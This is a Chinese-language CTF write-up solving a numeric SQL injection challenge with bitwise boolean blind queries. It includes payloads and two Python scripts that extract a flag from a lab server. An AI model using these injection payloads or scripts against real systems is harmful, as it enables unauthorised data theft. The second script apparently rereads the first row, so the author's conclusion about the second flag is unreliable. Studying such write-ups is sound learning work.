




## 前言

继续学习CTF，记录一下第一道Web。

## 题目



作为教程性质的题目，这道题几乎把什么都写出来了，连表名flag_is_here都知道了，真好。

题目已经告诉我们表名，并且给出了注入类型属于数字而不是字符串，因此不需要加单引号。

简单试一下 `1 OR 1 = 1` 发现给出了 0-7 全部的题目。



再试一下 `1 AND EXISTS(SELECT * FROM flag_is_here)`，返回了第一条数据，题目果然没骗我。

猜测列名为 “flag” ，先手注 `1 AND EXISTS(SELECT flag FROM flag_is_here)` ，发现有这个列，居然一次就猜对了XD。

然后试一下有几行 `1 AND (SELECT count(*) FROM flag_is_here) = 1`，不行，居然不止一个。再来试试2个，发现成功了，有两行flag。

题目不允许使用 UNION ，那么只能考虑布尔盲注（Boolean-based Blind Injection）了，注意到这个题目的输出其实并不是 True or False，而是八个 bit 的数据，一共 256 种情况，可以利用这个减少尝试的次数。

现在想要获取第一个flag的长度，为了充分利用这 8 bit 的数据，使用 `8 OR (SELECT LENGTH(flag) FROM flag_is_here LIMIT 1) & (1 << id)` ，发现返回了以下界面：


二进制的1/2/4/5位为1，而其他位均为0，0b00110110转十进制就是54，flag有54位。但是还要再验证一下，因为假如flag长度大于255（虽然不太可能），这个方法返回的数据就是错误的。

`1 OR (SELECT LENGTH(flag) FROM flag_is_here LIMIT 1) = 54`，返回的页面验证了我的猜测。

flag长度54位，ASCII码范围0-127，每次可以试出一个字符。举个例子，比如说我想知道第五个字符，就使用 `8 OR (SELECT ASCII(SUBSTR(flag, 5, 1)) FROM flag_is_here LIMIT 1) & (1 << id)`，页面返回以下结果：



则第五个字符的0/1/2/4/5/6位为1，其他位为0，0b01110111 = 119，查阅ASCII码表，发现对应的字符是小写英文字母“w”。



当然可以手动一个个试出54位flag，但是还是写代码来得快一点，上代码：

```python
import requests
from lxml import etree # 引入lxml包，便于使用XPath解析HTML

url = "http://10.214.160.13:10002/"
flag_length = 54

def array2Byte(array):
    '''
    将数组转化为一个0-255的数字
    e.g. [0, 1, 2, 4, 5, 6] -> 119
    '''
    b = 0
    for i in array:
        b |= 1 << i
    return b

def getTexts(SQLquery):
    '''
    获取请求的正文部分，再利用XPath提取出所有<body>元素里的文本。
    去除全部空白的文本，和每段文本的前后空白部分。
    '''
    res = requests.get(url, params={"questionid": SQLquery}) 
    html = res.text
    texts = etree.HTML(html).xpath('//body/text()')
    texts = [x.strip() for x in texts if not x.isspace()]
    return texts

for i in range(1, flag_length + 1):
    texts = getTexts(f"8 OR (SELECT ASCII(SUBSTR(flag, {i}, 1)) FROM flag_is_here LIMIT 1) & (1 << id)")
    # 构造SQL注入字符串，先取flag的第i个字符，再转化为ASCII码，二进制且运算提取每一位是0还是1，如果是1，则页面会返回相应序号的文本

    array = [int(x[0]) for x in texts] # 获取每个文本的第一个字符并转为数字，也就是序号0-7
    ch = chr(array2Byte(array)) # 转ASCII码为字符
    print(ch, end='')
```

运行代码后就获得了flag。

我还是有点在意另一行flag里面是啥，于是把另一行的内容也跑出来了：

```python
import requests
from lxml import etree

url = "http://10.214.160.13:10002/"

def getByte(query):
    res = requests.get(url, params={"questionid": query}) 
    html = res.text
    texts = etree.HTML(html).xpath('//body/text()')
    texts = [x.strip() for x in texts if not x.isspace()]
    array = [int(x[0]) for x in texts]
    b = 0
    for i in array:
        b |= 1 << i
    return b

flag_length = getByte("8 OR (SELECT LENGTH(flag) FROM flag_is_here LIMIT 1,1) & (1 << id)")
print(flag_length)
for i in range(1, flag_length + 1):
    ch = chr(getByte(f"8 OR (SELECT ASCII(SUBSTR(flag, {i}, 1)) FROM flag_is_here LIMIT 1) & (1 << id)"))
    print(ch, end='')
```

发现只是截取了前35个字符的不完整flag，没有什么彩蛋。

## 总结

这个题目很有趣的地方是页面可以返回一个字节的数据，这样一个长度54的flag只需要测54次就行了。当然不这么做也是可以的，毕竟这是CTF又不是需要程序在给定时间内返回结果的算法竞赛，每次获得 1 bit 的 true or false 数据或者手动注入都可以做出来。
